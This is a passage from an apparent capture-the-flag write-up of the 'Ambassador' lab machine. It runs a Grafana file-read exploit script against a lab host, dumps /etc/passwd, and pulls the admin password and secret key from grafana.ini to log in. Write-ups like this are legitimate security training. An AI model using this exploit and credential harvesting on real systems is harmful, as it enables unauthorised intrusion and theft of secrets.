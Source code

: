 ```bash
File Type: Python script, ASCII text executable
Copied to: /home/d0n/Ambassador/Intell/50581.py
```
{: .nolineno }

# Foothold

After finding the exploit, we can now try it by mentioning the URL we want to attack.

```bash
🕘 05:22:38 ➜  python3 50581.py -H http://10.10.11.183:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
[skip]
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
{: .nolineno }

Once run, we now know the different users present on the server. After that, I need to see which file was readable from the configuration files. As suggested by the official [documentation](https://grafana.com/docs/grafana/latest/setup-grafana/configure-grafana/), we can read the config file stored in `/etc/grafana/grafana.ini` . Once done, we soon realize that this file is leaking so much information such as the database instances and users. But most importantly, the admin password for the grafana site.

```bash
#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm

# disable gravatar profile images
;disable_gravatar = false
```
{: .nolineno }

After logging to `http://ambassador.htb:3000`, using the disclosed admin password found on the configuration file.
